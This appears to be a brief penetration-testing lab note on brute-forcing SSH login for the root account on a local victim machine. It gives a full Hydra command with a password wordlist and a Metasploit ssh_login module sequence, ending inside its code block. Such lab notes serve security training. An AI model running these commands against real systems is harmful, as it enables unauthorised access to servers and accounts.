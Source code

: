 - In this module here we'll be brute forcing the openssh service on the victim machine using the tool Hydra as well as metasploit
- Hydra
`hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.146.129 -t 4 -v`
	 -l: user
	 -P password list
	 -t: threads
	 -v: verbosity

- Metasploit
	```
	msfconsole
	search ssh
	use auxiliary/scanner/ssh/ssh_login
	options
	set USERNAME root
	set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
	set THREADS 10
	set VERBOSE true
	run
